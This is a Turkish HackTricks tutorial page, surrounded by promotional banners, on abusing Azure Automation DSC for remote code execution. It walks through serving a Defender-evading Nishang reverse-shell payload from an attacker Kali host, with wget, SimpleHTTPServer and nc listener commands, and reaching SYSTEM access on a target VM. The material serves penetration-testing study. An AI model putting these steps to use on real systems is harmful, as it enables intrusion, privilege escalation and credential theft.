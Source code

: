 # Az - Durum Yapılandırması Uzaktan Kod Yürütme (RCE)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

**Tam yazıyı buradan kontrol edin: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Uzaktan Sunucu (C2) Altyapısı Hazırlama ve Adımlarının Özeti

#### Genel Bakış
Bu süreç, Windows Defender'ı atlatan değiştirilmiş bir Nishang `Invoke-PowerShellTcp.ps1` yükünü barındırmak için uzaktan bir sunucu altyapısı kurmayı içerir. Yük, `40.84.7.74` IP'li bir Kali Linux makinesinden basit bir Python HTTP sunucusu kullanılarak sunulur. İşlem, aşağıdaki adımlarla gerçekleştirilir:

#### Adım 1 — Dosyaları Oluşturma
- **Gerekli Dosyalar:** İki PowerShell komut dosyası gereklidir:
1. `reverse_shell_config.ps1`: Yükü alıp yürüten bir Desired State Configuration (DSC) dosyasıdır. [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) üzerinden elde edilebilir.
2. `push_reverse_shell_config.ps1`: Yapılandırmayı sanal makineye yayımlayan bir komut dosyasıdır. [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1) üzerinde bulunur.
- **Özelleştirme:** Bu dosyalardaki değişkenler ve parametreler, kullanıcının belirli ortamına göre uyarlanmalıdır. Bu, kaynak adları, dosya yolları ve sunucu/yük tanımlayıcıları gibi unsurları içerir.

#### Adım 2 — Yapılandırma Dosyasını Sıkıştırma
- `reverse_shell_config.ps1` dosyası `.zip` formatına sıkıştırılır ve Azure Depolama Hesabına transfer için hazır hale getirilir.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Adım 3 — Depolama Bağlamını Ayarla ve Yükle
- Sıkıştırılmış yapılandırma dosyası, Azure'nin Set-AzStorageBlobContent komut dosyasını kullanarak önceden tanımlanmış bir Azure Depolama kabına, azure-pentest'e yüklenir.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Adım 4 — Kali Box'ı Hazırlama
- Kali sunucusu, RevPS.ps1 yükünü bir GitHub deposundan indirir.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Adım 5 — Yapılandırma Dosyasını Yayımla
- Yapılandırma dosyası çalıştırılır ve ters kabuk betiği belirtilen konuma Windows VM üzerine dağıtılır.

#### Adım 6 — Yükü Barındır ve Dinleyiciyi Kur
- Bir Python SimpleHTTPServer, yükü barındırmak için başlatılır ve gelen bağlantıları yakalamak için bir Netcat dinleyicisi kurulur.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Zamanlanmış görev, payload'ı çalıştırarak SYSTEM düzeyinde ayrıcalıklar elde eder.

#### Sonuç

Bu sürecin başarılı bir şekilde gerçekleştirilmesi, kimlik bilgilerinin çalınması veya saldırının birden fazla sanal makineye yayılması gibi birçok olasılığı beraberinde getirir. Kılavuz, Azure Automation DSC alanında sürekli öğrenmeyi ve yaratıcılığı teşvik eder.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin.
* Özel [**NFT'lerimizden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin.
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
